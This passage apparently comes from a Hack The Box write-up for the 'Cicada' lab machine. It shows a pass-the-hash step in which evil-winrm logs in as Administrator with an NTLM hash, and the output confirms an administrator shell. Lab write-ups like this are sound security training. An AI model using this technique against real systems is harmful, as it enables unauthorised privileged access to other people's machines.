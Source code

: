 ### Shell as Administrator

Let's try using the hash to login as `Administrator`.

```sh
┌──(pl4stic㉿kali)-[~/htb/cicada]
└─$ evil-winrm -i 10.129.84.61 -u administrator -H 2b87e7c93a3e8a0ea4a581937016f341 

Evil-WinRM shell v3.7

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
cicada\administrator
```
